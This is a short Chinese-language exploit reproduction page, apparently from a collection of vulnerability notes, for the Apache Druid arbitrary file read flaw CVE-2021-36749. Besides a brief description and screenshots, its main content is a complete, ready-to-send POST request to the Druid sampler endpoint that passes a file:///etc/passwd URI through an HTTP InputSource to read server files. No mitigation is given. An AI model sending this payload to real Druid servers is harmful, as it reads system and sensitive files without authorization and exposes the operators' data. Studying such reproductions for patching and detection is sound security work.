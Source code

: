 ```yaml
---
title: Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749 
---
```


# Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

<a-checkbox checked>Apache Druid</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://github.com/">title="Apache Druid"</a-button>
</a-checkbox>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1635581825740-fb87d406-6cf5-4c7f-b757-66e83d957346.png)

复现过程

![img](../../../.vuepress/public/img/1635581875371-557354af-d294-49ab-9483-79180aadfe65.png)

![img](../../../.vuepress/public/img/1635581900223-41408c4c-3b5c-4b66-b726-532835d0254d.png)

请求包为

```php
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![img](../../../.vuepress/public/img/1635582099772-ea2fb699-82d9-4df1-aea9-9ed1f9068ae3.png)